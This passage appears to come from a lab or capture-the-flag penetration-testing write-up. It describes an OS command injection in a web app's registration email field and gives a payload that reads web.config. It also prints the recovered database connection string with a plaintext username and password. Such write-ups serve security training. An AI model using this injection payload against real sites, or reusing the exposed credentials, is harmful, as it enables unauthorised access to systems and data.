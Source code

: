 - In the Registration blade we can test the input fields for possible vulnerabilities, discovering an OS command injection vulnerability in the `Email address` field.
- We can look for sensitive information in files such as `web.config` using the following payload `type D:\home\site\wwwroot\web.config`. To make sure we get the full output of the executed command we can view the source code of the page.
- We find some sensitive information regarding a connection string to a database.
```xml
<snip>

<connectionStrings>
		<add name="ConnectionStringName" providerName="System.Data.SqlClient"
		  	connectionString="Data Source=tcp:internal-db.database.windows.net,1433;Initial Catalog=info;Integrated Security=False;User Id=dbuser;Password=^ryMPLHhV7@yxXI$4*!u;Encrypt=True;TrustServerCertificate=False;MultipleActiveResultSets=True"/>
	</connectionStrings>

<snip.
```